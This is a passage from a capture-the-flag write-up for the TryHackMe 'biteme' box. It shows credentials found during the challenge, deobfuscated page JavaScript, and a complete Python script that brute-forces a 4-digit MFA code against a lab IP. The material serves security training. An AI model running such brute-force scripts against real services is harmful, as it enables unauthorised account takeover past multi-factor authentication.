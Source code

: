**Output:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# python3 gen_md5hash.py
[+] Found the last 3 MD5 characters are equals to 001!
[+] Before MD5 hash: muhuo
[+] After MD5 hash: 01402432df5dac990ba03e0d00382001
```

**Since we found a username, let's use the above password to login to `/console/index.php`!**

- Username: jason_test_account
- Password: muhuo

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/biteme/images/a5.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/biteme/images/a6.png)

Yes!! We sort of logged in. As what we just found in `/console/index.phps`, after sending a POST request in `/console/index.php`, we'll be redirected to `/console/mfa.php`.

```
A 4 digit code has been sent to your device
```

4 digit? Maybe we can bruteforce it??

**Anyways, let's look at the View-Source page:**
```html
    <script>
      function handleSubmit() {
        eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('0.1(\'@2 3 4 5 6 7 8 9 a b c, d e f g h... i\');',19,19,'console|log|fred|we|need|to|put|some|brute|force|protection|on|here|remind|me|in|the|morning|jason'.split('|'),0,{}));
        return true;
      }
    </script>
```

```
fred we need to put some brute force protection on here remind me in the morning jason
```

***Again, I'll write a [simple python script](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/biteme/mfa_brute.py) to bruteforce it:***

**mfa_brute.py:**
```py
#!/usr/bin/env python3

import requests

url = 'http://10.10.136.9/console/mfa.php'
cookies = {'pwd': 'muhuo', 'user': 'jason_test_account'}
code = ["%04d" % num for num in range(10000)] # A list that stores 0000 to 9999

for number in code:
	payload = {'code': number}
	r = requests.post(url, cookies=cookies, data=payload)

	incorrect_msg = str(r.headers['Content-length'])
	print('\r', end='') # Clear previous line.
	print(f'[+] Bruteforcing code: {number}\n', end='')

	if incorrect_msg != "919": # Incorrect code content length is 919.
		print(f'[+] Found MFA code: {number}')
		exit()
```